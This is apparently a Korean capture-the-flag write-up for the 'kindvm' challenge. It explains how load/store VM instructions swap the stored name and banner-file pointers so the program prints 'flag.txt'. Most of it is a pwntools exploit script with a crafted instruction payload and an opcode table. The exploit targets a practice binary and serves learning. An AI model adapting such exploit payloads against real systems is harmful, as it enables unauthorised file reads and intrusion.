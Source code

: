 `mem-40`(kc+8)은 `name`이 저장된 주소를 나타내고, `mem-36`(kc+12)은 "banner.txt"가 저장된 주소를 나타냅니다. `load`와 `store`를 사용하여 두 값을 바꿔주면 `func_farewell()`이 실행되면서 `name`을 이름으로 하는 파일을 `open_read_write()`을 통해 출력할 수 있습니다. 

`name`에 **"flag.txt"**를 저장하면 플래그를 읽을 수 있게 됩니다.



# exploit

```python
#! /usr/bin/python
from pwn import *

r = process('./kindvm')

payload = 'flag.txt'
r.sendlineafter('Input your name : ',payload)

payload2 = ''
payload2 += '\x01'      # load()  *(reg+0) = *(mem-40)
payload2 += '\x00' 
payload2 += '\xff\xd8'
payload2 += '\x02'      # store() *(mem-36) = *(reg+0)
payload2 += '\xff\xdc'
payload2 += '\x00'
payload2 += '\x06'      # halt()
r.sendlineafter('Input instruction : ',payload2)

r.interactive()
'''
\x00 nop
\x01 load  _8, _16
\x02 store _16, _8
\x03 mov   _8, _8
\x04 add   _8, _8
\x05 sub   _8, _8
\x06 halt  
\x07 in    _8, _32
\x08 out   _8
\x09 hint  
'''

```



# comment

- `hint` 파일이 없었거니와 `insn_add()`의 `hint3()`를 실행시키는 것까지의 과정이 무슨 의미가 있는 건지 잘 모르겠다.


